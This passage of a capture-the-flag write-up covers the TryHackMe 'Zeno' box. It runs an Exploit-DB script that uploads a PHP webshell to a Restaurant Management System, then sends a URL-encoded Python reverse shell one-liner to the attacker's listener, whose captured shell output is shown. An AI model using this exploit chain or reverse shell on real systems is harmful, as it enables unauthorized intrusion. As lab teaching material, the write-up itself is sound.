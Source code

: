 Looking for rms exploits I find https://www.exploit-db.com/exploits/47520

### Exploitation

This script needed some cleaning up and editing, but ultimately allowed us to upload a webshell we could use to get command execution:

```
┌──(ryan㉿kali)-[~/THM/Zeno]
└─$ python rms_rce.py http://10.10.231.208:12340/rms/

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|



Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL :http://10.10.231.208:12340/rms/images/reverse-shell.php
```

We could then navigate to http://10.10.231.208:12340/rms/images/reverse-shell.php?cmd=id to execute commands:

![zeno_cmd.png](../assets/zeno_assets/zeno_cmd.png)

Heading to revshell.com I URL encode a Python reverse shell one liner and issue it with:

```
http://10.10.231.208:12340/rms/images/reverse-shell.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.6.72.91%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

This catches me a callback in my listener:

```
┌──(ryan㉿kali)-[~/THM/Zeno]
└─$ nc -lnvp 443                  
listening on [any] 443 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.231.208] 38850
bash-4.2$ whoami
whoami
apache
bash-4.2$ hostname
hostname
zeno
```
